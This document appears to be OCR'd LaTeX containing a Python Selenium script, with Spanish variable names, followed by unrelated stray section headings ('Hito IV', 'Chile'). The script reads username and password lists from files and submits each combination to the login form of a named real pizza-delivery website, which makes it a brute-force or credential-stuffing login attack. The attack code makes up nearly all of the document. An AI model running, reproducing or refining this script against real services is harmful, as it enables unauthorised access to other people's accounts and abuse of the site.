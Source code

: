 \documentclass{article}
\begin{document}
\begin{lstlisting}[lenguaje =py]
import string, random, time
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.by import By
from ctypes import sizeof
ubicacionDriver = '/usr/local/bin/chromedriver'

def readUsuarios():
    usuarios = list()
    arc = open("user.txt")
    lineas = arc.readlines()
    i = 0    #driver.get('https://www.telepizza.es/')
    for lineas in lineas:
        usuarios.append(lineas)
    return usuarios

def readPasswords():
    passwords = list()
    arc = open("pass.txt")
    lineas = arc.readlines()
    i = 0
    for lineas in lineas:
        passwords.append(lineas)
    return passwords


if __name__ == "__main__":
    options = webdriver.ChromeOptions()
    options.add_argument('--start-maximized')
    options.add_argument('--disable-extensions')

    driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
    correos=readUsuarios()
    contraseñas=readPasswords()
    driver.set_window_position(1000,0)
    driver.maximize_window()
    time.sleep(1)
    driver.get('https://www.telepizza.es/account/login')
    time.sleep(2)
    driver.find_element(By.XPATH,'//*[@id="cookie-alert"]/div/div[2]/button').click()
    i = 0
    time.sleep(2)
    
    for contraseña in contraseñas:
        for correo in correos:

            if i == 0:
                email = driver.find_element(By.ID, 'UserName')
                email.clear()
                email.send_keys(correo)
                time.sleep(5)
                i = i + 1 
            
            passw = driver.find_element(By.ID,"Password")
            passw.clear()
            passw.send_keys(contraseña)
            time.sleep(5)
            
            driver.find_element(By.ID, "login-submit").click()
            time.sleep(2)
    driver.close()
\end{lstlisting}


\newpage
\subsection{Hito IV}

\subsubsection{Chile}
\end{document}
